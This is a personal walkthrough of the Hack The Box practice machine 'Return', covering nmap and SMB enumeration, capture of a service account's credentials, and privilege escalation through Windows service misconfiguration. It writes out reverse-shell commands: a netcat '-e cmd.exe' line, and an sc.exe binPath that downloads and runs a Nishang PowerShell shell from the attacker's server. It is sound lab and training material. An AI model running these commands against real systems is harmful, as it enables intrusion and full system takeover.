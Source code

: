 # Return

This is my walk-through of the machine located at: [https://app.hackthebox.com/machines/Return](https://app.hackthebox.com/machines/Return).

nmap scan: `nmap -T4 -A 10.10.11.108 -oN return.nmap`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-20 15:01 EST
Nmap scan report for 10.10.11.108
Host is up (0.034s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-20 20:26:53Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=12/20%OT=53%CT=1%CU=36731%PV=Y%DS=2%DC=T%G=Y%TM=61C0E1
OS:40%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=105%TI=I%CI=I%II=I%SS=S%TS
OS:=U)OPS(O1=M54DNW8NNS%O2=M54DNW8NNS%O3=M54DNW8%O4=M54DNW8NNS%O5=M54DNW8NN
OS:S%O6=M54DNNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y
OS:%DF=Y%T=80%W=FFFF%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD
OS:=Z)

Network Distance: 2 hops
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 25m06s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-12-20T20:27:06
|_  start_date: N/A

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   39.17 ms 10.10.14.1
2   33.44 ms 10.10.11.108

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.10 seconds
```

I then went on the IP Address and found this page:

![](<../../.gitbook/assets/image (342) (1).png>)

I then ran **gobuster** on the IP Address: `gobuster dir -u 10.10.11.108 -w directory-list-2.3-big.txt -t 60`. I ended up with the following, which wasn't very helpful:

![](<../../.gitbook/assets/image (326) (1).png>)

I then tried found the nmap command to enumerate ldap: `nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' 10.10.11.108`.The nmap script was taking a while, so I went to the walk-through to see where I had gotten off of track. I found out that I should use **enum4linux** in order to enumerate for SMB: `enum4linux -a 10.10.11.108`. I then found this information:

![](<../../.gitbook/assets/image (329).png>)

The walk-through mentioned that we should enter our own IP Address in the **Server Address** section on the website. Using that I got a shell:

![](<../../.gitbook/assets/image (345) (1).png>)

The walk-through then mentioned using the **evil-winrm** tool. I learned that, while I was able to overwrite the password for the svc-printer user, it would be overwritten by its own system. The walk-through pointed out that the password would be what is shown by the output of netcat connection previously:

![](<../../.gitbook/assets/image (334) (1).png>)

Looking around, I was able to find the **user.txt** flag in the Desktop of the svc-printer user:

![](<../../.gitbook/assets/image (335) (1).png>)

I am not too familiar with Windows commands, so the walk-through mentioned running the `net user svc-printer` command:

![](<../../.gitbook/assets/image (344) (1).png>)

Again, I had to view the write-up to see where to go from here. From the commands, you are uploading netcat onto the system, and then configuring netcat to be run and connect to your machine:

`upload /usr/share/windows-resources/binaries/nc.exe`&#x20;

`sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe <YOUR-IP> 1234"`. After having a netcat listener setup on another tab, I was able to get a connection:

![](<../../.gitbook/assets/image (330).png>)

The official walk-through got me to become root, however, I was not able to do anything on the machine. I then found this [write-up](https://readysetexploit.wordpress.com/2021/10/12/hack-the-box-return/) that helped me setup a proper shell. Here are the commands I used:

```
Download the Nishang script for Powershell:
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

Have a netcat listener opened in another teminal window (using rlwrap):
rlwrap nc -lvnp <PORT>

Have a python3 http server online on another teminal window:
sudo python3 -m http.server 80

Upload that to the server with the evil-winrm terminal:
sc.exe config vss binPath="C:\Windows\System32\cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"

Restart the executable:
sc.exe stop VSS
sc.exe start VSS
```

I was then able to get the root.txt file:

![](<../../.gitbook/assets/image (332) (1).png>)
